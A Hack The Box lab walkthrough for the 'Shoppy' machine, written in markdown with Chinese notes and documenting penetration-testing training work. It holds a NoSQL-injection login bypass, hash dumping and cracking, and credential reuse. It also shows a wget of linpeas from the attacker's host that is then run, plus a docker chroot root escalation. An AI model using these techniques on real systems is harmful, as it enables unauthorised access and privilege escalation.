





###### tags: `Hack the box` `HTB` `Easy` `Linux`

# Shoppy
```
┌──(kali㉿kali)-[~/htb]
└─$ rustscan -a 10.129.227.233 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 10.129.227.233:22
Open 10.129.227.233:80
Open 10.129.227.233:9093

PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9e:5e:83:51:d9:9f:89:ea:47:1a:12:eb:81:f9:22:c0 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDApZi3Kltv1yDHTatw6pKZfuIcoHfTnVe0W1yc9Uw7NMUinxjjQaQ731J+eCTwd8hBcZT6HQwcchDNR50Lwyp2a/KpXuH2my+2/tDvISTRTgwfMy1sDrG3+KPEzBag07m7ycshp8KhrRq0faHPrEgcagkb5T8mnT6zr3YonzoMyIpT+Q1O0JAre6GPgJc9im/tjaqhwUxCH5MxJCKQxaUf2SlGjRCH5/xEkNO20BEUYokjoAWwHUWjK2mlIrBQfd4/lcUzMnc5WT9pVBqQBw+/7LbFRyH4TLmGT9PPEr8D8iygWYpuG7WFOZlU8oOhO0+uBqZFgJFFOevq+42q42BvYYR/z+mFox+Q2lz7viSCV7nBMdcWto6USWLrx1AkVXNGeuRjr3l0r/698sQjDy5v0GnU9cMHeYkMc+TuiIaJJ5oRrSg/x53Xin1UogTnTaKLNdGkgynMqyVFklvdnUngRSLsXnwYNgcDrUhXxsfpDu8HVnzerT3q27679+n5ZFM=
|   256 58:57:ee:eb:06:50:03:7c:84:63:d7:a3:41:5b:1a:d5 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHiKrH/B/4murRCo5ju2KuPgkMjQN3Foh7EifMHEOwmoDNjLYBfoAFKgBnrMA9GzA+NGhHVa6L8CAxN3eaGXXMo=
|   256 3e:9d:0a:42:90:44:38:60:b3:b6:2c:e9:bd:9a:67:54 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBRsWhJQCRHjDkHy3HkFLMZoGqCmM3/VfMHMm56u0Ivk
80/tcp   open  http    syn-ack ttl 63 nginx 1.23.1
|_http-server-header: nginx/1.23.1
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://shoppy.htb
9093/tcp open  http    syn-ack ttl 63 Golang net/http server
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-title: Site doesn't have a title (text/plain; version=0.0.4; charset=utf-8).
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest, HTTPOptions: 
|     HTTP/1.0 200 OK
|     Content-Type: text/plain; version=0.0.4; charset=utf-8
|     Date: Wed, 12 Feb 2025 03:04:25 GMT
|     HELP go_gc_cycles_automatic_gc_cycles_total Count of completed GC cycles generated by the Go runtime.
|     TYPE go_gc_cycles_automatic_gc_cycles_total counter
|     go_gc_cycles_automatic_gc_cycles_total 4
|     HELP go_gc_cycles_forced_gc_cycles_total Count of completed GC cycles forced by the application.
|     TYPE go_gc_cycles_forced_gc_cycles_total counter
|     go_gc_cycles_forced_gc_cycles_total 0
|     HELP go_gc_cycles_total_gc_cycles_total Count of all completed GC cycles.
|     TYPE go_gc_cycles_total_gc_cycles_total counter
|     go_gc_cycles_total_gc_cycles_total 4
|     HELP go_gc_duration_seconds A summary of the pause duration of garbage collection cycles.
|     TYPE go_gc_duration_seconds summary
|     go_gc_duration_seconds{quantile="0"} 3.6088e-05
|     go_gc_duration_seconds{quantile="0.25"} 4.7731e-05
|_    go_gc_dur
|_http-favicon: Unknown favicon MD5: CFA55E74DFEA9476C26632CEC91E65D9
```

`ffuf`掃路徑
```
┌──(kali㉿kali)-[~/htb]
└─$ ffuf -u http://shoppy.htb/FUZZ -w /home/kali/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt

images                  [Status: 301, Size: 179, Words: 7, Lines: 11, Duration: 389ms]
login                   [Status: 200, Size: 1074, Words: 152, Lines: 26, Duration: 348ms]
admin                   [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 349ms]
assets                  [Status: 301, Size: 179, Words: 7, Lines: 11, Duration: 2416ms]
css                     [Status: 301, Size: 173, Words: 7, Lines: 11, Duration: 323ms]
Login                   [Status: 200, Size: 1074, Words: 152, Lines: 26, Duration: 331ms]
js                      [Status: 301, Size: 171, Words: 7, Lines: 11, Duration: 322ms]
fonts                   [Status: 301, Size: 177, Words: 7, Lines: 11, Duration: 321ms]
Admin                   [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 321ms]
```

`ffuf`掃`subdomain`
```
┌──(kali㉿kali)-[~/htb]
└─$ ffuf -u http://shoppy.htb/ -H "Host:FUZZ.shoppy.htb" -w /home/kali/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -fw 5

mattermost
```

加入`/etc/hosts`
```
┌──(kali㉿kali)-[~/htb]
└─$ sudo nano /etc/hosts

10.129.227.233  shoppy.htb
10.129.227.233  mattermost.shoppy.htb
```

嘗試一般`sql injection`會`504`，嘗試[nosql injection](https://nullsweep.com/a-nosql-injection-primer-with-mongo/)
開`burpsuite`
```
┌──(kali㉿kali)-[~/htb]
└─$ burpsuite
```



塞`admin' || 'a'=='a`可以成功



```
username=admin' || 'a'=='a&password=admin
```

可以登入進來之後，在`http://shoppy.htb/admin/search-users`這邊輸入`admin`發現可以撈出`password`




```
0	
_id	"62db0e93d6d6a999a66ee67a"
username	"admin"
password	"23c6877d9e2b564ef8b32c3a23de27b2"
```

再試一次一樣的[nosql injection](https://nullsweep.com/a-nosql-injection-primer-with-mongo/)
在網址輸入`http://shoppy.htb/admin/search-users?username=admin%27%20||%20%27a%27==%27a`
按`enter`然後選`download export`

得到`josh`的密碼`6ebcea65320589ca4f2f1ce039975995`
```
0	
_id	"62db0e93d6d6a999a66ee67a"
username	"admin"
password	"23c6877d9e2b564ef8b32c3a23de27b2"
1	
_id	"62db0e93d6d6a999a66ee67b"
username	"josh"
password	"6ebcea65320589ca4f2f1ce039975995"
```

[crackstation](https://crackstation.net/)破解得密碼`remembermethisway`
|Hash                            |Type|	Result            |
|--------------------------------|----|-------------------|
|6ebcea65320589ca4f2f1ce039975995|md5 |	remembermethisway |

利用`josh/remembermethisway`登入`http://mattermost.shoppy.htb`



點`Recent mentions`可以看到有一個帳號密碼
```
username: jaeger
password: Sh0ppyBest@pp!
```

利用ssh登入，可在`/home/jaeger`得user.txt
```
┌──(kali㉿kali)-[~/htb]
└─$ ssh jaeger@10.129.227.233
jaeger@10.129.227.233's password: Sh0ppyBest@pp!

jaeger@shoppy:~$ cat user.txt
c477927e0520f9ba33652a2005e36ec9
```

輸入`sudo -l`
```
jaeger@shoppy:~/.nvm$ sudo -l
[sudo] password for jaeger: 
Matching Defaults entries for jaeger on shoppy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager
```

可以用`deploy`的身分執行`/home/deploy/password-manager`，執行我們不知道密碼所以只好把這個檔案傳出來看看
```
jaeger@shoppy:~$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sh0ppyBest@pp!
Access denied! This incident will be reported !

jaeger@shoppy:/home/deploy$ python3 -m http.server 8000

┌──(kali㉿kali)-[~/htb]
└─$ wget 10.129.227.233:8000/password-manager 

password-manager                   100%[================================================================>]  18.01K  40.9KB/s    in 0.4s 
```

先`string`看看會不會在裡面，看起來沒有
```
┌──(kali㉿kali)-[~/htb]
└─$ strings password-manager  
/lib64/ld-linux-x86-64.so.2
__gmon_start__
_ITM_deregisterTMCloneTable
_ITM_registerTMCloneTable
_ZNSaIcED1Ev
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEEC1Ev
_ZSt4endlIcSt11char_traitsIcEERSt13basic_ostreamIT_T0_ES6_
_ZSt3cin
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEEC1EPKcRKS3_
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEEpLEPKc
_ZNSt8ios_base4InitD1Ev
_ZNSolsEPFRSoS_E
__gxx_personality_v0
_ZNSaIcEC1Ev
_ZStlsISt11char_traitsIcEERSt13basic_ostreamIcT_ES5_PKc
_ZNSt8ios_base4InitC1Ev
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEED1Ev
_ZSt4cout
_ZNKSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE7compareERKS4_
_ZStrsIcSt11char_traitsIcESaIcEERSt13basic_istreamIT_T0_ES7_RNSt7__cxx1112basic_stringIS4_S5_T1_EE
_Unwind_Resume
__cxa_atexit
system
__cxa_finalize
__libc_start_main
libstdc++.so.6
libgcc_s.so.1
libc.so.6
GCC_3.0
GLIBC_2.2.5
CXXABI_1.3
GLIBCXX_3.4
GLIBCXX_3.4.21
u/UH
[]A\A]A^A_
Welcome to Josh password manager!
Please enter your master password: 
Access granted! Here is creds !
cat /home/deploy/creds.txt
Access denied! This incident will be reported !
;*3$"
zPLR
GCC: (Debian 10.2.1-6) 10.2.1 20210110
crtstuff.c
deregister_tm_clones
__do_global_dtors_aux
completed.0
__do_global_dtors_aux_fini_array_entry
frame_dummy
__frame_dummy_init_array_entry
password-manager.cpp
_ZStL19piecewise_construct
_ZStL8__ioinit
_Z41__static_initialization_and_destruction_0ii
_GLOBAL__sub_I_main
__FRAME_END__
__GNU_EH_FRAME_HDR
_DYNAMIC
__init_array_end
__init_array_start
_GLOBAL_OFFSET_TABLE_
_ZNKSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE7compareERKS4_@GLIBCXX_3.4.21
_edata
_IO_stdin_used
__cxa_finalize@GLIBC_2.2.5
_ZSt4endlIcSt11char_traitsIcEERSt13basic_ostreamIT_T0_ES6_@GLIBCXX_3.4
__dso_handle
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEED1Ev@GLIBCXX_3.4.21
DW.ref.__gxx_personality_v0
system@GLIBC_2.2.5
__cxa_atexit@GLIBC_2.2.5
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEEpLEPKc@GLIBCXX_3.4.21
_ZStlsISt11char_traitsIcEERSt13basic_ostreamIcT_ES5_PKc@GLIBCXX_3.4
_ZNSolsEPFRSoS_E@GLIBCXX_3.4
_ZNSaIcED1Ev@GLIBCXX_3.4
__TMC_END__
_ZStrsIcSt11char_traitsIcESaIcEERSt13basic_istreamIT_T0_ES7_RNSt7__cxx1112basic_stringIS4_S5_T1_EE@GLIBCXX_3.4.21
_ZSt4cout@GLIBCXX_3.4
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEEC1EPKcRKS3_@GLIBCXX_3.4.21
__data_start
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEEC1Ev@GLIBCXX_3.4.21
__bss_start
_ZNSt8ios_base4InitC1Ev@GLIBCXX_3.4
__libc_csu_init
__gxx_personality_v0@CXXABI_1.3
_ITM_deregisterTMCloneTable
_Unwind_Resume@GCC_3.0
_ZNSaIcEC1Ev@GLIBCXX_3.4
__libc_csu_fini
_ZSt3cin@GLIBCXX_3.4
__libc_start_main@GLIBC_2.2.5
__gmon_start__
_ITM_registerTMCloneTable
_ZNSt8ios_base4InitD1Ev@GLIBCXX_3.4
.symtab
.strtab
.shstrtab
.interp
.note.gnu.build-id
.note.ABI-tag
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rela.dyn
.rela.plt
.init
.plt.got
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.gcc_except_table
.init_array
.fini_array
.dynamic
.got.plt
.data
.bss
.comment
```

把他拉到`ida`裡面看看



可以看到上面有判斷一個字串`Sample`之後會跳到`Access granted! Here is creds !`

回到靶機可以輸入看看，可以出現`deploy`的密碼`Deploying@pp!`，成功切成user`deploy`
```
jaeger@shoppy:/home/deploy$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!

jaeger@shoppy:/home/deploy$ su deploy
Password: 
$ whoami
deploy
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
```

用`linpeas`
```
deploy@shoppy:~$wget 10.10.14.36/linpeas.sh
deploy@shoppy:~$ chmod +x linpeas.sh
deploy@shoppy:~$ ./linpeas.sh

                               ╔═══════════════════╗
═══════════════════════════════╣ Basic information ╠═══════════════════════════════                                               
                               ╚═══════════════════╝                                                                              
OS: Linux version 5.10.0-18-amd64 (debian-kernel@lists.debian.org) (gcc-10 (Debian 10.2.1-6) 10.2.1 20210110, GNU ld (GNU Binutils for Debian) 2.35.2) #1 SMP Debian 5.10.140-1 (2022-09-02)
User & Groups: uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)
```

有`docker`的群組，查看[GTFOBins](https://gtfobins.github.io/gtfobins/docker/#shell)，成功切成root權限後，在`/root`可得root.txt
```
deploy@shoppy:~$ docker images
REPOSITORY   TAG       IMAGE ID       CREATED       SIZE
alpine       latest    d7d3d98c851f   2 years ago   5.53MB
deploy@shoppy:~$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# python3 -c 'import pty; pty.spawn("/bin/bash")'

root@37b093f54104:~# cat root.txt
d7b1415d7a1bfcb06a59150c4d117695
```
